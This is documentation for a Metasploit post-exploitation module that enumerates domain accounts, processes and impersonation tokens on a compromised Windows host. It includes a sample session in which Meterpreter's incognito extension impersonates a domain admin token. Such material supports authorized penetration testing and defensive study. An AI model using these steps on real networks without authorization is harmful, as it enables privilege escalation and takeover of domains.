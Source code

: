 ## Vulnerable Application

This module enumerates domain account tokens, processes running under
domain accounts, and domain users in the local Administrators, Users
and Backup Operator groups.


## Verification Steps

1. Start msfconsole
1. Get a Meterpreter session on a Windows target on a domain
1. Do: `use post/windows/gather/enum_domain_tokens`
1. Do: `set session [#]`
1. Do: `run`
1. You should receive a list of Active Directory domain accounts with impersonation tokens

## Options

## Scenarios

### Local Administrator session on Windows Server 2016

```
msf6 > use post/windows/gather/enum_domain_tokens
msf6 post(windows/gather/enum_domain_tokens) > set session 1
session => 1
msf6 post(windows/gather/enum_domain_tokens) > run

[*] Running module against WIN-7V3NGVNQTJ1 (192.168.200.215)
[+] Current session is running under a Local Admin account
[*] This host is not a domain controller
[*] Checking local groups for Domain Accounts and Groups

Account in Local Groups with Domain Context
===========================================

 Local Group       Member              Domain Admin
 -----------       ------              ------------
 Administrators    CORP\Domain Admins  false
 Backup Operators  CORP\asdf           false
 Users             CORP\Domain Users   false


[*] Checking for processes running under domain user

Processes under Domain Context
==============================

 Process Name  PID   Arch  User            Domain Admin
 ------------  ---   ----  ----            ------------
 cmd.exe       3504  x64   CORP\corpadmin  true
 conhost.exe   4008  x64   CORP\corpadmin  true


[*] Checking for Domain group and user tokens

Impersonation Tokens with Domain Context
========================================

 Token Type  Account Type  Account Name                                 Domain Admin
 ----------  ------------  ------------                                 ------------
 Delegation  User          CORP\corpadmin                               true
 Delegation  Group         CORP\Denied RODC Password Replication Group  false
 Delegation  Group         CORP\Domain Users                            false


[*] Post module execution completed
msf6 post(windows/gather/enum_domain_tokens) > sessions -i 1
[*] Starting interaction with 1...

meterpreter > getuid
Server username: WIN-7V3NGVNQTJ1\Administrator
meterpreter > load incognito
Loading extension incognito...Success.
meterpreter > impersonate_token CORP\\corpadmin
[-] Warning: Not currently running as SYSTEM, not all tokens will be available
             Call rev2self if primary process token is SYSTEM
[+] Delegation token available
[+] Successfully impersonated user CORP\corpadmin
meterpreter > getuid
Server username: CORP\corpadmin
meterpreter >
```
